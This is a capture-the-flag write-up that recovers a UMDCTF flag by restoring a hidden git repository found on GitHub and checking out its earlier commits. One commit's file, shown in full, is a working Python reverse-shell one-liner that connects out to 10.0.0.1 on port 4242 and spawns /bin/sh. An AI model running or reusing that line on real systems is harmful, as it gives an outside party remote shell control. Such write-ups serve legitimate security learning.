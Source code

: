 # MemeCTF 2 Electric Boogaloo

## Challenge:

`9c222530fc5822720b24a18e0c5200957fcbe169589915c963e765c99c7f5f3a`

## Solution:

The string doesn’t decode into anything useful. But if we Google search for the string, we find a repository on GitHub: https://github.com/UMD-CSEC/Hmmmmmmmmmmmmmmmmmmmmmmmmm.

Examining the repository, we can find what appears to be a second repository under `old_files/data`. Let’s take a look:

```bash
$ cp -R old_files ../                                                                                                                                                                                                                                                $ cd ../old_files                                                                                                                                                                                                                                                    $ mv data .git
$ git status
On branch master
nothing to commit, working tree clean
```

If we look back through this repository, we can see a couple of commits:

```bash
$ git log
commit 3acbf91df6a99b4971243b936f04c719fa25f2e5
Author: Ben Carlisle <bencarlisle15@gmail.com>
Date:   Sat Feb 20 19:26:01 2021 -0500

    Fixed missing quote

commit 7d08573779791d779afb55b424b7326494f047e7
Author: Ben Carlisle <bencarlisle15@gmail.com>
Date:   Sat Feb 20 19:25:48 2021 -0500

    Switched format to python

commit cee06af994c3ff6cc9e8774d8ddff0a039304822
Author: Ben Carlisle <bencarlisle15@gmail.com>
Date:   Sat Feb 20 19:24:53 2021 -0500

    Init files

```

Let’s try rolling back and seeing what we can find:

```bash
$ git checkout 7d0857                                                                                                                                                                                                                                                                     master
Note: switching to '7d0857'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at 7d08573 Switched format to python
$ ls
shell.py
$ cat shell.py
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")
```

That didn’t work, let’s try the first commit:

```bash
$ git checkout cee06a                                                                                                                                                                                                                                                                    7d08573
Previous HEAD position was 7d08573 Switched format to python
HEAD is now at cee06af Init files
$ ls                                                                                                                                                                                                                                                                                 
flag.txt
$ cat flag.txt                                                                                                                                                                                                                                                                       
UMDCTF-{f0r_th3_m3m3
```

And just like that, we found the flag: `UMDCTF-{f0r_th3_m3m3}`.
